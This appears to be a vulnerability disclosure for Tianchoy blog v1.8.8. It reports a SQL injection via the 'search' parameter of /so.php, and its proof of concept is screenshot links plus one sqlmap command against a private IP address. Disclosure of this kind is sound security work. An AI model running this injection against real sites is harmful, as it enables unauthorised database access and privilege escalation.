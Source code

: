  [description]
 
Tianchoy blog v1.8.8 was discovered to contain a SQL Injection vulnerability via the URI /so.php with parameter name 'search'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Tianchoy blog,https://github.com/tianchoy/blog

 ------------------------------------------

 [Affected Product Code Base]
 
 <=v1.8.8

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
 <img width="1216" alt="图片" src="https://github.com/user-attachments/assets/2a5d2905-e08b-4707-b298-a027f7693fac">

<img width="567" alt="图片" src="https://github.com/user-attachments/assets/4e522a87-83e4-466f-a6c9-447e55d68f2e">




sqlmap:
```
sqlmap -u "http://192.168.0.183:11180/so.php?search=1&submit="  --batch --banner

```
